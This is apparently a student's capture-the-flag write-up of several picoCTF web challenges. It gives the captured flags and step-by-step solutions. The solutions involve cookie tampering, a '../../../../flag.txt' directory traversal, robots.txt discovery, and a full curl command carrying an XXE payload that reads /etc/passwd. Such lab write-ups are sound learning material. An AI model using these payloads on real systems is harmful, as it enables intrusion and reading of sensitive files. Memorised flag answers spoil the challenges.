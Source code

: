 # Cookies

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`

Approach:

- **Step 1**

This challenge was pretty easy, it just required for us to tinker with the cookie values of the webpage, seeing the title of the challenge and webpage i knew we had to do something with the cookies so i accessed them by going to inspect, application and then cookies there i saw the value as -1 and thought to change it which resulted in a new webpage so i kept on doing this till i entered the value 18 which gave me the flag!!!

![image](https://github.com/user-attachments/assets/94433a92-0727-49c6-8e22-56bd4901e109)

Knowledge Gained:

1. Use of cookies and how to exploit them

Incorrect Methods:

- No incorrect method was pretty simple

References

- No reference

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

Approach:

- **Step 1**

On launching the challenge i got a basic undertsanding of the challenge, we need to somehow enter a path in the website that could bypass the filtering of absolute path and since we cant provide a absolute path i had to do something different, so i used chatGPT to get basic ideas of how we can bypass filters like this and one method suggested was to append `../../` before `/flag.txt` to bypass the filter this is known as directory traversal. This works because basically what we are doing is moving up the directories till we reach the root directory and then we provide the relative path from there to `/flag.txt` so i just kept appending `../` till i entered `../../../../flag.txt` which worked and it gave me the flag!!! 

![image](https://github.com/user-attachments/assets/32799e58-4e11-46bf-85de-bf30d9f345a4)

![fpath](https://github.com/user-attachments/assets/212570c5-a6b0-48d1-9d5c-14cca1353748)

Knowledge Gained:

1. Directory Traversal in websites
2. Basic idea on how to bypass absolute path filters

Incorrect Methods:

- Initially i tried various methods to bypass the filter like using `.`, using globs etc. which did not work so i used help of AI to get a basic idea of what to do

References

- [ChatGPT](www.chatgpt.com)

# Insp3ct0r

**Flag:** `picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?832b0699}`

Started the challenge, opened the website and inspected the site there i looked around to find all the 3 parts of the flag and complete it!!!

# where are the robots

**Flag:** `picoCTF{ca1cu1at1ng_Mach1n3s_8028f}`

Started the challenge, opened the site and i tried using inspect to find any leads but got no success then i asked chatGPT for some ideas on what to do and it told me to try using "robots.txt" which tells search engine crawlers which URLs the crawler can access on the site, on using this i see 
```
User-agent: *
Disallow: /8028f.html
```
so i try to go to the dissallowed file by appending it to the url and voila i get the flag!!!

# SOAP

**Flag:**  `picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}`

One of the harder challenges to solve but finally did it. So first i opened the site and was stuck there for a quite a while until while just looking around in inspect i saw that in Network there was a "POST" request which gave me an idea since i had already solved a similar challenge in OASIS so i knew i had to use the `curl` command to send a special request to get the flag, so i copied the request as `curl` and got this 

```
curl 'http://saturn.picoctf.net:52083/data' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,hi;q=0.8' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/xml' \
  -H 'Origin: http://saturn.picoctf.net:52083' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://saturn.picoctf.net:52083/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36' \
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>' \
  --insecure
```

here it was clear an xml request was being sent and also the hint said to use an xml external entity injection so i googled it and found the format of an XXE attack using which then i modified the command and got this

```
curl 'http://saturn.picoctf.net:52083/data' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,hi;q=0.8' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/xml' \
  -H 'Origin: http://saturn.picoctf.net:52083' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://saturn.picoctf.net:52083/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36' \
  --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>' \
  --insecure
```

on running this i got the flag!!!

- [XXE format](https://portswigger.net/web-security/xxe)
